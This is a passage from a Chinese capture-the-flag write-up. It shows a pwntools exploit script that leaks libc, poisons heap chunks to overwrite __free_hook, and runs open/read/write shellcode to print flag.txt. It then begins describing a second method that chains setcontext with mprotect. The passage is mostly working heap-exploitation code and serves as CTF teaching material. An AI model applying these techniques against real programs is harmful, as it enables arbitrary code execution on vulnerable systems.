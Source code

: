 ```
print "libc_info----->" + hex(libc_info)
libc_addr=libc_info-0x3ebca0
print "libc_addr----->" + hex(libc_addr)
malloc_hook=libc_addr+libc.sym['__malloc_hook']
free_hook=libc_addr+libc.sym['__free_hook']

print "malloc_hook----->" + hex(malloc_hook)
print "free_hook----->" + hex(free_hook)

mmap_addr=0x23330000

shellcode=""
shellcode+=asm(shellcraft.open("flag.txt"))
shellcode+=asm(shellcraft.read(3,mmap_addr+0x100,0x100))
shellcode+=asm(shellcraft.write(1,mmap_addr+0x100,0x100))

edit(7,padding+p64(0)+p64(0xa1))
add(0x500,padding)
add(0x500,padding)
delete(0)
edit(1,padding+p64(0)+p64(0xa1)+p64(mmap_addr))

add(0x500,padding)
add(0x500,shellcode.ljust(0x90,'a'))

padd2='a'*0x20
add(0x500,p64(0xdeadbeef).ljust(0x20,'a'))

add(0x500,padd2)
delete(4)
edit(3,p64(0)*3+p64(0x31)+p64(free_hook))

add(0x500,padd2)
delete(9)

add(0x500,padd2)
edit(5,p64(mmap_addr))

delete(5)

io.interactive() 
```

### 解法2：调用mprotect

这个解法是模仿2021ciscn中的silverwolf。那道题也是orw，但是没有本题mmap开辟的一段空间，因此需要自己调用mprotect来使得程序中部分空间可执行。这种方法需要劫持free_hook为setcontext+0x53的位置，之后在下一个要free的块上布置好setcontext需要的寄存器的内容，free掉这个块，但是在寄存器布置好之后，还需要接着控制程序执行流，包括**读入shellcode**和**跳转到shellcode执行**两部分。其中读入shellcode使用的依然是汇编执行，而跳转则是在读入shellcode执行syscall之后，使用jmp (addr)的方式。具体的下面分析。
前面的泄露地址和获取相关libc也是一样的
首先是写入free_hook的内容
